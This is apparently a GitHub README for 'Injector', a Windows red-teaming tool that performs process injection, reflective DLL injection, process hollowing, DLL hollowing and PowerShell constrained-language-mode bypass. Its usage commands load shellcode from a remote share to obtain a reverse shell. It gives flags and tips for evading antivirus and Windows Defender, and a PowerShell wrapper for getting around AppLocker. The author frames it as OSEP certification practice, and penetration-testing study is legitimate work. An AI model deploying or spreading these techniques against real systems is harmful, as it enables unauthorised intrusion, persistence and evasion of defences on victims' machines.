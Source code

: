 # Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.
- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode i.e AES encrypted and Xor encryted shellcode are now supported. To encrypt the shellcode use Helper.exe in order to maintain consistency.  
- Supports CLM bypass for powershell. Just drop it to a whitelisted folder where you can execute C# binary, for instance at C:\\Windows\\Tasks
- Now comes with support for DLL Hollowing. DLL hollowing is implemented via the dll_hollow.dll! So in case you end up using this mode, make sure the dll and the exe are in same place.

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing
        -m 4     No injection! Give me my damn shell
        -m 5     Powershell session via CLM bypass
        -m 6     DLL hollowing

-TempFile        File location that your current user can read
-shellcode       Use shellcode
-dll     Use dll
-decrypt-xor     Specify Xor decryption for shellcode
         -pass   Specifty the password for Xor decryption
-decrypt-aes     Specify aes decryption for shellcode
         -pass   Specifty the password for aes decryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```
To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell. Presence of bypass flag instructs injector to use some other ways to get reverse shell i.e using some undocumented Win API.

In case you dont wanna use encrypted shellcode, you can also run it simply like below

```
Injector.exe -m=1 -shellcode -location="\\192.x.x.x\share\shellcode.txt"
```
Just change the -m=1 to 2,3,4,6 to run other modes. 

```
Injector.exe -m=5 -TempFile=C:\\Users\\user\\sample.txt
```
This will give you a session where you can execute IEX cradle and get a proper reverse shell hence bypassing CLM.

## Help me with Antivirus?

A specific function called basic_rev in Program.cs of Injector triggers windows defender. It is advised to edit the function and remove the WaitForSingleObject line which will end up making that whole module useless but helps to bypass defender on Windows. Why to use a basic reverse shell mode when advance modes will give you persistence and help evade defender better :)

# Why make it?

Main aim is to help me in OSEP :P

# Powershell 

You can use Invoke-Exe.ps1 to execute Injector from powershell in case there is applocker restriction on .NET execution.
```
Invoke-Exe -loc C:\Users\john\injector.exe
```
Note : Use the Debug build of Injector to load it Reflectivly in powershell.

# Talk to me?

Shoot me a DM on twitter @gh0st_R1d3r_0x9 to talk abt more interesting indeas/modules that can make this more amazing!

Current module in pipeline
- Phantom DLL Injection

# Acknowledgements

[Ired Team](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
